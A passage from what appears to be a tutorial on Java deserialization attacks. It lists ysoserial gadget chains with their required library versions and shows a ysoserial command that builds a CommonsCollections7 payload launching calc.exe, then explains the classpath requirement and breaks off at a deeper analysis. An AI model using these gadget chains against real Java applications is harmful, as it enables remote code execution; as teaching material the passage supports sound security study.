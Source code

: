 ```
     Groovy1             @frohoff                               groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser                       js:1.7R2
     MozillaRhino2       @_tint0                                js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                              rome:1.0
     Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

For the Deserialization example provided above, let's suppose we wanted to craft a payload using ysoserial and CommonsCollection7:

```bash
$ ysoserial CommonsCollections7 "cmd /c calc.exe" > ./Serialize/de.ser
```

If you try to open it using the example JAVA file, of course it won't work, showing a `java.lang.ClassNotFoundException: org.apache.commons.collections.map.LazyMap` exception. The reason is always the "visibility constraint". As this payload uses `CommonsCollections:3.1`, which is not part of standard JAVA SDK, the POP gadgets to build the required chain cannot be found. In order to make it work, we should be sure to have this dependency on the application classpath. A working example, where the `org.apache.commons-collections:3.1` dependency has been added, can be found [here](./serialization/java/). 

Now that we have a general understanding of the process, let's try to describe the full steps occuring during deserialisation in Java using CommonsCollections7.

Payloads generated with ysoserial share a common structure, which use a Payload Runner using maps to setup the conditions, and a transformer to actually build and run OS commands. 

Let's take a deep look at CommonsCollections7:
